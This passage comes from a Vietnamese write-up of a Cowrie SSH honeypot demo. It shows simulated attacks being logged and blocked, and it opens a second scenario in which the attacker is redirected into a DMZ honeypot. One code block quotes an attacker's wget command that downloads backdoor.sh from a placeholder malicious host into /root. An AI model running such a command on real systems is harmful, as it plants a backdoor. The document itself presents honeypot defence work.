 **6. Malware Deployment - Bị chặn!**

![Đẩy mã độc](/images/projects/honeypot/demo1-malware.png)
*Hình 11: Hacker cố gắng tải mã độc*
```bash
# Hacker chạy:
wget http://malicious.com/backdoor.sh -O /root/backdoor.sh

# Cowrie phát hiện:
[SUSPICIOUS] Downloading file from external source
[ACTION] Connection terminated
```

![Bị ngắt kết nối](/images/projects/honeypot/demo1-blocked.png)
*Hình 12: Kết nối bị ngắt bởi Cowrie*

### **Kết quả Kịch bản 1**

**Log của Cowrie:**

![Cowrie Log 1](/images/projects/honeypot/demo1-cowrie-log1.png)
*Hình 13: Cowrie phát hiện xâm nhập*

![Cowrie Log 2](/images/projects/honeypot/demo1-cowrie-log2.png)
*Hình 14: Log chi tiết mọi lệnh của hacker*

**Phân tích:**
- ✅ Ghi nhận 47 lần thử đăng nhập (Brute Force)
- ✅ Log đầy đủ 8 lệnh hacker thực thi
- ✅ Phát hiện và chặn tải mã độc
- ✅ Bảo vệ mạng LAN thành công

---

### **Kịch bản 2: Tấn công qua Honeywall vào DMZ**

**Bối cảnh:**
Hacker nhắm đến Honeywall, nhưng bị chuyển hướng vào Honeypot DMZ.

**Các bước tấn công:**

**1. Target Identification**

![Quét Honeywall](/images/projects/honeypot/demo2-scan.png)
*Hình 15: Hacker quét Honeywall*

**2. Service Discovery**

![Phát hiện SSH](/images/projects/honeypot/demo2-services.png)
*Hình 16: Nmap phát hiện SSH trên Honeywall*

![Định tuyến](/images/projects/honeypot/demo2-routing.png)
*Hình 17: Các vùng mạng được định tuyến*
